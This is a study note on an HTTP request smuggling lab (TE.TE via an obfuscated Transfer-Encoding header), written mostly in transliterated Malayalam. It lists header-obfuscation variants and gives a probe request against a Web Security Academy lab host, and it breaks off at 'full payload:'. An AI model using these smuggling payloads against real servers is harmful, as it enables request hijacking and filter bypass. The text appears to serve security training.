 ==============================================================

### #3 TE.TE behavior: obfuscating the TE header :
-->ivide both front-end and back-end server um transfer-encoding header support chyum
-->pakshe ithil ethengilum oru server inekond ee TE header parse chyikatha reethiyil namal header entho chyum angane aan ee sitation namal exploit chyunath
-->There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:

```java
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x                      (duplicate)

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

x:\nTransfer-Encoding: chunked
	
Transfer-Encoding
: chunked
```

          Lab-3(HTTP request smuggling, obfuscating the TE header)
-->lab open chyuka.enit home page inte GET / request eduth repeater il iduka enit satharana chyunapole url path , host ozhich ellam remove chyth content-length,content-type,transfer-encoding itt send adich nokuka:
```http
POST / HTTP/1.1
Host: 0a6b0036045a6004c0952fcc00d500ef.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 12
transfer-encoding: chunked

2
as
0


```

-->send adikumbol 200OK kitum.ini onudi send adikumbol pinem 200OK ennan kitunath.so athinartham backendil ithine filter chyunund
-->so namuk ee WAF ine bypass chyanam.so namuk ee transfer-encoding modify chyth nokam
-->namuk mukalil koduthitula ethengilum oru technique use chyth WAF bypass chyan patumon nokam
-->so namuk rand transfer-encoding header use chyam.onil chunked value kodukam mattethil enthengilum kodutho
-->full payload:
